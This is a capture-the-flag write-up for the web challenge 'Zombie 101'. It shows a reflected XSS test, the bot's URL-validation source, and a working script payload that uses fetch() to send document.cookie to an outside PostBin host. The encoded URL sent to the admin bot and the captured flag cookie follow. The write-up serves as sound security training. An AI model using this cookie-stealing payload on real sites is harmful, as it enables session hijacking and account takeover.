

# Zombie 101

### Category: Web
### Points: 100

In the challenge description we are given a link to the following website:



It's also noted in the description that this challenge is a classic "steal the admin's cookie" challenge.

Given two input boxes for this challenge, I immediately test for a XSS vulnerability
in the first box and unsurprisingly, I get a pop-up with the age-old:
```
<script>alert(0)</script>
```
The second form allows you to pass a URL to the 'admin' bot, and it will visit that page. 
The source code is given to us and we can see the restrictions of the URL we pass in:

```
const validateRequest = (req) => {
    const url = req.query.url
    if (!url) {
        return 'Hmmm, not seeing a URL. Please try again.'
    }

    let parsedURL
    try {
        parsedURL = new URL(url)
    }
    catch (e) {
        return 'Something is wrong with your url: ' + escape(e.message)
    }

    if (parsedURL.protocol !== 'http:' && parsedURL.protocol !== 'https:') {
        return 'Our admin is picky. Please provide a url with the http or https protocol.'
    }

    if (parsedURL.hostname !== req.hostname) {
        return `Please provide a url with a hostname of: ${escape(req.hostname)}  Hmmm, I guess that will restrict the submissions. TODO: Remove this restriction before the admin notices and we all get fired.`
    }

    return null
}
```

We can craft a simple exploit to steal the admin's cookie and redirect it to our own server:

```
<script>
fetch('https://www.toptal.com/developers/postbin/xxxx-xxxx?cookie='+document.cookie,{headers: {'Accept': ''}})
   .then(response => response.text())
   .then(text => console.log(text))
</script>
```

After injecting this payload into the first input box, we get a URL to give to the zombie page for the admin to check out.

Submitting this URL:

```
# https://zombie-101-tlejfksioa-ul.a.run.app/visit?url=https%3A%2F%2Fzombie-101-tlejfksioa-ul.a.run.app%2Fzombie%3Fshow%3D%253Cscript%253Efetch%2528%2527https%253A%252F%252Fwww.toptal.com%252Fdevelopers%252Fpostbin%xxxx-xxxx%253Fcookie%253D%2B%2527%252Bdocument.cookie%252C%257Bheaders%253A%2B%257B%2527Accept%2527%253A%2B%2527%2527%257D%257D%2529%2B.then%2528response%2B%253D%253E%2Bresponse.text%2528%2529%2529%2B.then%2528text%2B%253D%253E%2Bconsole.log%2528text%2529%2529%253C%252Fscript%253E
```

Gives us the flag in the response from PostBin:

cookie: flag=wctf{c14551c-4dm1n-807-ch41-n1c3-j08-93261}

